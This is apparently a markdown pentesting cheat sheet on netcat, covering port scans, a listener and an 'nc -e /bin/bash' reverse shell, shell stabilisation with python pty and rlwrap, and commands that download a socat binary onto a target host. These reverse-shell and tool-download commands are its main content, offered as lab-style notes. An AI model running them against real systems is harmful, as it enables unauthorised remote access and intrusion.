 # What is Netcat?
Read and write to network connections using TCP or UDP

# Port Scanning
A basic scan using netcat

| Option | Description |
| ------ | ----------- |
| `-nv` | Don't resolve DNS, verbose |
| `-w 1` | sets timeout to 1 second |
| `-z` | specifies a port scan |
| `-u` | UDP mode |

`nc -nv -w 1 -z 192.168.1.1/24` 

Scan a range of ports and store the result in a file
```sh
nc -nv -w 1 -z 10.10.10.10 1-65535 2>&1 | awk '/succeeded!$/{print $3}' > port-scan.txt 2>&1
```

## Reverse Shells

A listener on port 4200:
`-l` - Listener
`-v` - verbose
`-n` - No DNS
`-p` - Port

```sh
nc -lvnp 4200
```

Bash reverse shell
```sh
nc 10.10.10.10 4200 -e /bin/bash
```

### Stabalizing a linux shell

### Host Changes
You will want to make the following changes on your host to ensure the features are passed on your reverse shell.

Turn off terminal echo, allow tab complete, arrow keys and `CTRL+C`
```sh
stty raw -echo; fg
```
Get your terminal settings with `-a` and set them manually for the reverse shell.
```sh
ssty -a
ssty rows <number>
stty cols <number>
```

#### 1. Using Python
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### 2. RLWrap
Is a program that gives access to history, tab completion, and the arrow keys. The technicque of prepending `rlwrap` to netcat is useful when interacting with windows.

```sh
sudo apt install rlwrap
rlwrap nc -lvnp 4200
```

#### 3. SOCAT
- Limited to linux
- Requires [static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)
  
Serve the binary from a temporary webserver:
```sh
python3 -m http.server 8080
wget 10.10.10.10/socat -O /tmp/socat
Invoke-WebRequest -uri 10.10.10.10/socat.exe -outfile C:\\Windows\temp\socat.exe
```
